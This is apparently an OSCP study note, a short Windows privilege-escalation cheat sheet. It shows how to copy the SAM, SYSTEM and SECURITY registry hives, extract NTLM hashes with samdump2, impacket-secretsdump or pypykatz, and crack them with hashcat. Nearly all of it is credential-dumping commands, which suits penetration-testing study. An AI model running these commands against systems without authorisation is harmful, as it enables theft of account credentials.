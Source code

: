 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/8. Windows Privilege Escalation/10. Dumping SAM/"}
---
```


The easiest way to steal the Security Account Manager (SAM) files is to get a copy from the registry:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
**Download** those files to your Kali machine and **extract the hashes** using:
```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```
Results in hashes like this:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f518eb35353d7a83d27e7fe457664e5:::
```
- The string starting with "8f518" is the NTLM hash which can be cracked using hashcat -m 1000

Alternatives:
```
.\secretsdump_windows.exe -sam C:\windows\system32\config\SAM -system C:\windows\system32\config\SYSTEM LOCAL

fgdump

pypykatz
```

Credit: https://book.hacktricks.xyz/windows-hardening/stealing-credentials